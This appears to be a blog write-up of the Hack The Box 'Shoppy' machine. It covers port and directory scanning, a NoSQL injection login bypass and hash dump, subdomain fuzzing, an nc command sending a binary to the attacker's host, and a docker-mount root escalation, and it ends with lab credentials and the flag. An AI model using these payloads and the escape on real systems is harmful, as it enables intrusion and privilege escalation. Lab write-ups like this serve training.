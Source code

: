 ```yaml
---
layout: post
title:  Hack the Box Shoppy
image: /assets/img/HTB-Logo.png
date:   2023-01-12 14:11:01
tags:
- pentest
description: Basic pentest challenge
categories:
- Hack The Box
---
```


![](/assets/img/2023-01-12-15-04-47.png)


Run nmap on the IP we get 2 ports open, port 80 and port 22 for SSH:

```
# Nmap 7.93 scan initiated Thu Jan 12 05:45:47 2023 as: nmap -sV -Pn -oN nmap.out 10.10.11.180
Nmap scan report for 10.10.11.180
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 12 05:46:02 2023 -- 1 IP address (1 host up) scanned in 15.07 seconds
```

The first page looks like:

![](/assets/img/2023-01-12-14-21-04.png)

We run gobuster on the server and see a logon portal.

```
└─$ gobuster dir -w /home/kali/Desktop/stuff/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://shoppy.htb 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/Desktop/stuff/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/12 05:48:47 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 28] [--> /login]
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
Progress: 114441 / 114442 (100.00%)
===============================================================
2023/01/12 06:03:01 Finished
===============================================================
```

After trying the following github repos of SQL injections:

https://github.com/payloadbox/sql-injection-payload-list
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/NoSQL%20Injection/Intruder/NoSQL.txt
https://github.com/DevanshRaghav75/NoSQL_injection_stuff
https://book.hacktricks.xyz/pentesting-web/nosql-injection


I discovered that the following request worked:

```
POST /login?error=WrongCredentials HTTP/1.1

Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Origin: http://shoppy.htb
Connection: close
Referer: http://shoppy.htb/login?error=WrongCredentials
Upgrade-Insecure-Requests: 1


username=admin'||' &password=admin
```
After logging in you have to work the search to discover another user:


Searching for `' || '1==1` will give you 2 accounts admin and josh. 

You cannot break the hash for admin, but for josh you can find it online:

```
0	
_id	"62db0e93d6d6a999a66ee67a"
username	"admin"
password	"23c6877d9e2b564ef8b32c3a23de27b2"
1	
_id	"62db0e93d6d6a999a66ee67b"
username	"josh"
password	"6ebcea65320589ca4f2f1ce039975995"
```
remembermethisway is the pass jor josh .

Next you need to do recon again, because we missed a subdomain.

`ffuf -u http://shoppy.htb -H "Host: FUZZ.shoppy.htb" -w /home/kali/Desktop/stuff/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt --fs 169 `

where fs is the size of the bad response.

Afterwards we can discover a password in the mattermost channel:

![](/assets/img/2023-01-12-14-43-49.png)

Using ssh we logon to the page and run linpeas.

We see that we can execute an executable as user deploy:

![](/assets/img/2023-01-12-14-45-28.png)

Afterwards we download the executable using nc `nc -w 3 10.10.14.77 8888 < /home/deploy/password-manager` .

We reverse engineer/ just cat the binary and get Sample as the password:

![](/assets/img/2023-01-12-14-47-39.png)

After getting the other user password which is granted by the manager upon entering Sample 

```
(Deploy Creds :
username: deploy
password: Deploying@pp!
)
```

We switch users, and look for a way to gain root. We run linpeas again, and look at the thing that we are in a docker container.

We run deepce and it gives us 2 leads.


![](/assets/img/2023-01-12-14-49-51.png)

The easiest for me was running `docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/bash` and this makes us root.

Last flag:


`ebb276b6cfee6bc206ffbf73797e937f`


